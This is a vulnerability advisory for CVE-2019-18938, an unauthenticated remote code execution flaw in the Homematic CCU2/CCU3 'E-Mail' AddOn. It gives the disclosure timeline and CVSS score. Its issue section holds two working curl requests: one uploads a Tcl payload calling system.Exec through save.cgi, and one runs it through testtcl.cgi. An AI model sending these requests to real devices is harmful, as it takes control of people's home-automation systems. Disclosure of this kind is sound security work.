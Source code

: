 ```yaml
---
layout: post
title:  "CVE-2019-18938 eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution"
date:   2020-11-05 21:10:00 MET
author: 'psytester'
---
```




# Overview

- CVE: CVE-2019-18938
- Author: psytester
- Title: eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'E-Mail' AddOn contacted: 13.08.2019 as [issue #11](https://github.com/jens-maus/hm_email/issues/11)
  - Developer of 'E-Mail' AddOn confirmation: N.A.
  - 'E-Mail' AddOn patch: [Version 1.7.0](https://github.com/homematic-community/hm_email/releases/tag/1.7.0) released on 04.11.2020
  - Affected 'E-Mail' AddOn version: 1.6.8.c and prior

# Background

From [Github 'E-Mail' AddOn project page](https://github.com/jens-maus/hm_email):<br>
A HomeMatic/CCU Addon to send emails from a CCU system either by directly calling a script from the CCU WebUI programming interface or via CUxD devices being used within the CCU system.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'E-Mail' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. Upload the payload to CCU embedded in system.Exec() commands or if also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/email/save.cgi?userScript' --data '
load tclrega.so
array set values [rega_script {
var x=system.Exec("sleep 4;");
var x=system.Exec("/bin/touch /tmp/testfile1;");
var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile2");
}]'
```

2. Execute the payload by calling:<br>
```
curl -X GET -i 'http://1.2.3.4/addons/email/testtcl.cgi'
```

# CVE

[CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
